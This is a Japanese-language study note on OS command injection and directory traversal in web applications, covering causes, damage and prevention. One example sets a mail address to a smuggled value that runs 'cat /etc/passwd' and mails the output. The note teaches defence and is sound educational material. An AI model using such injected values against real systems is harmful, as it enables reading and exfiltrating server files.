


# OSコマンドインジェクション

* OSコマンドは、Webアプリケーションが動作するOS上の実行プログラムのこと
* Webアプリケーションからシェルを通じてOSコマンドを呼び出している箇所に脆弱性があると、開発者が想定していないOSコマンドが実行されてしまう
* OSコマンドを呼び出している部分で、別のOSコマンドが実行できてしまう脆弱性や攻撃手法を、OSコマンドインジェクションと呼ぶ
* OSコマンドインジェクションの原因は、OSコマンドを起動する際のパラメータを外部から指定可能な場合に、パラメータに対する入力チェックとエスケープ処理に漏れがあることです。



WebアプリケーションにOSコマンドインジェクションの脆弱性があると、以下の被害を招く可能性がある

* サーバーにあるファイルやコンテンツの閲覧、改ざん、削除
* rootkitなどの不正なプログラムのダウンロード、実行
* 不正なシステム操作(ユーザーアカウントの作成、サービスの停止など)
* 攻撃のための踏み台にされる

WebアプリケーションからOSコマンドを呼び出す箇所は、アプリケーションの要件によりますが、以下のような機能で利用されている

* メール送信(問い合わせメールの送信、メルマガ登録時の自動応答メールなど)
* ファイル操作(ファイルの読み込み、書き出しなど)
* バッチ処理の起動(バックグラウンドでの操作など)
* OSコマンドを起動した方がパフォーマンスが高いそうさ(画像ファイルの操作など)

```text
例として、入力されたメールアドレスに対してメールを送信するプログラムを考える
Linux上で動作しているWebアプリケーションに対し、OSコマンドを使ってメールを送信するときに、以下のようなOSコマンドを起動して実装したとします。
```

```bash
/usr/sbin/sendmail -i < template.txt xxx@xxx.xx.xx
```

* `/usr/sbin/sendmail`コマンドはLinuxでメールを送信するコマンド
* template.txtは、送信するメール本文が記述されたテキストファイル
* `xxx@xxx.xx.xx`の部分にユーザーが入力したメールアドレスが入る
* ここで、メールアドレスとして`; cat /etc/passwd | /usr/sbin/sendmail xxx@xx.xx.xx`を入力すると、OSのコマンドとして以下のコマンドが実行される

```bash
/usr/sbin/sendmail -i < template.txt ; cat /etc/passwd | /usr/sbin/sendmail xxx@xx.xx.xx
```

* 入力値の中にある`;`はシェルの特殊文字で、「複数のコマンドを続けて実行する」という意味を持る
* 環境や権限によっては、wgetコマンド外部からバックドアとなるソフトウェアをダウンロードしたり、useraddコマンドでリモート接続するユーザーを作成可能になる
* この結果、攻撃者がバックドアを使ってシステムに侵入し、Webシステムを他サイトへの攻撃の踏み台として悪用する可能性がある

## OSコマンドインジェクションを防ぐには

* OSコマンドインジェクションを防ぐには、OSコマンドを起動する実装を避けること

## ディレクトリトラバーサル

* Webシステムでファイルの読み込みや書き込みを行う場合に気をつけたいのが、ディレクトリートラバーサル脆弱性
* これは、読み込みや書き込みを行うファイル名を外部パラメータとして指定可能な場合に、意図しないファイルをWebシステムの処理対象としてしまう脆弱性
* ディレクトリートラバーサル脆弱性は、ファイルに含まれるディレクトリの扱いに不備がある場合に発生する
* 入出力に関係する脆弱性の一つ

被害例

* 公開を意図していない、Webサーバー内のファイルの閲覧(重要情報の漏洩)
* Webサーバーないファイル(設定ファイル、データファイル、コンテンツ)の改ざん、削除

```text
Webシステムが読み込みや書き込みを行うファイル名を外部からパラメータとして指定可能な場合、ファイル名に「../」をつけることで別のディレクトリやファイルを指定できるケースがある
このような時に、ディレクトリートラバーサルの危険性がある
```



## ディレクトリトラバーサルを防ぐには

* ディレクトリトラバーサルを防ぐには、外部パラメータとしてファイル名を指定する使用を避ける必要がある
* 外部からファイル名を指定できなければ、ディレクトリートラバーサルの危険性を回避可能
* 外部からファイル名を直接指定する代わりに、「ファイル名を固定にする」「セッション変数で保持する」ファイル名を指定する代わりに番号を指定する
* 外部パラメータとしてファイル名を指定せざると得ない場合は、ファイル名にディレクトリー名が含まれないようにする